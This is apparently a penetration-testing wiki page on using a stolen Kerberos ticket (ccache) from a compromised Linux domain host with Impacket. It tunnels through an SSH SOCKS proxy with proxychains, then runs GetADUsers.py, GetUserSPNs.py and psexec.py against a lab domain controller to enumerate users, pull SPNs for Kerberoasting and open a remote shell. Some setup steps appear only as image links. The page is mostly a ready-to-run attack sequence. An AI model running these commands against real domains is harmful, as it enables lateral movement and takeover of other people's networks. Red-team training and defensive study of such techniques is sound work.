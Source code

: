 # Using Kerberos with Impacket

## **Using Kerberos with Impacket**

### Scenario 

#### - Domain computer compromised \(linux\) - User Ccache file owned - Download the ccache into the attacker machine 

### Settings

#### Set Kerberos Env using the stolent ticket

![](../../../../../.gitbook/assets/image%20%2869%29%20%281%29.png)

#### Install krb5-user and add DC into hosts

![](../../../../../.gitbook/assets/image%20%2870%29.png)

#### KRB5.conf configuration

![](../../../../../.gitbook/assets/image%20%28234%29.png)

#### Proxychains

Edit the config file and comment the following line:

![](../../../../../.gitbook/assets/image%20%28170%29.png)

![](../../../../../.gitbook/assets/image%20%28233%29.png)

#### Sock Proxy

Create a sock Proxy on the target compromised linux box :

```csharp
ssh testme@10.110.0.74 -D 1080
```



### Enumerate AD users

```csharp
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator

```

![](../../../../../.gitbook/assets/image%20%2819%29%20%281%29.png)

### Get SPN 

```text
proxychains python3 GetUserSPNs.py -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator
```

### Get a shell

```csharp
proxychains python3 psexec.py -dc-ip 10.110.0.222 Administrator@dc02.CROOK.BADCORP.LOCAL -k -no-pass
```

![](../../../../../.gitbook/assets/image%20%2827%29.png)

